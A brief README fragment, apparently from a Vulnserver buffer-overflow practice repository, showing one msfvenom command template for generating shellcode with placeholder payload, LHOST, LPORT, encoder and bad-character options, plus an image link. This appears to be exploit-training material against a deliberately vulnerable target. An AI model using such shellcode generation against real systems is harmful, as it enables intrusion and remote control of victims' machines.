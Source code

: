 # How to create shellcode ?
####### msfvenom -p [payload] LHOST=[IP Address] LPORT=[PORT] -e [encoder] --platform [platform] -b [badchars] -f [Format output ( C ) ]
![sck1ddie](https://raw.githubusercontent.com/sck1ddie/Vulnserver-Buffer-Overflow/main/bofsck1ddie.png)
